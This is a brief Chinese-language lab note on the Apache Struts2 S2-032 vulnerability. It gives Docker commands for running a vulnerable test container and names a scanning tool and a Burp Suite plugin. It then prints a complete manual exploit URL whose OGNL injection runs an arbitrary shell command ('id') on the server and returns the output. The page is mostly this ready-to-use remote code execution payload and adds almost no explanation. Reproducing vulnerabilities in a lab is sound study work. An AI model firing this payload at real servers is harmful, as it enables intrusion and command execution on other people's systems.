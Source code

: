 ### 漏洞环境

来源：http://vulapps.evalbug.com/s_struts2_s2-032/

```

docker pull medicean/vulapps:s_struts2_s2-032
docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-032

```

### 使用和利用

方法一：
直接使用python3版的扫描工具：
https://github.com/HatBoy/Struts2-Scan

方法二：
安装burpsuite插件J2EESCAN并使用scanner模块进行扫描

### 手工利用的exploit

```
http://127.0.0.1/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

